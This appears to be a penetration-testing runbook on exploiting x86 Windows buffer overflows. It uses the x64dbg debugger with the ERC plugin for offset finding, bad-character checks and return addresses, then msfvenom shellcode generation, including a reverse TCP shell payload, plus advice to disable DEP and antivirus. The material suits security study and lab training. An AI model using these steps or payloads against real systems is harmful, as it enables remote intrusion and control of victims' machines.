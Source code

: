 # buffer overflow x86 windows

## Step 0: Setup

- Install [x64dbg](https://github.com/x64dbg/x64dbg), the x32 version.
- Install [ERC](https://github.com/Andy53/ERC.Xdbg), also the x32 version.

## Step 1: Take control EIP

- Get rough estimate offset (e.g. 1000)
- Create pattern.
```shell
ERC --pattern c 5000
```

- Calculate exact offset using the value of the EIP.
```shell
ERC --pattern o 1hF0
```
or automatically using
```shell
ERC --findNRP
```

- Verify offset by overwriting EIP.

## Step 2: Identify bad chars

- Generate chars string.

```shell
ERC --bytearray -bytes 0x00
```

- Compare characters from array to character in memory region, using the value of the ESP.

```shell
ERC --compare 009A19E4 C:\Users\windows\Downloads\x96dbg\x32\plugins\ByteArray_1.bin
```

## Step 3: Identify return address

To find a list of all loaded files by the program, we can use 

```shell
ERC --ModuleInfo
```

## Step 4: Generate shellcode

- Generate shellcode using `msfvenom`.
```shell
msfvenom -p "windows/exec" CMD="cmd.exe" --format "python" --bad-chars "\x00"
```
```shell
msfvenom -p "windows/shell_reverse_tcp" LHOST=me LPORT=4444 -f "python" --bad-chars "\x00"
```

- When running shellcode locally in Windows 10 VM make sure to
  - Disable _data execution protection_
  - Windows defender / antivirus

## Python

- A Python script for buffer overflow can be at [GitHub](https://github.com/a3cipher/runbook/blob/main/ptes3-exploitation/binary-exploitation/bo-x86-windows.py).
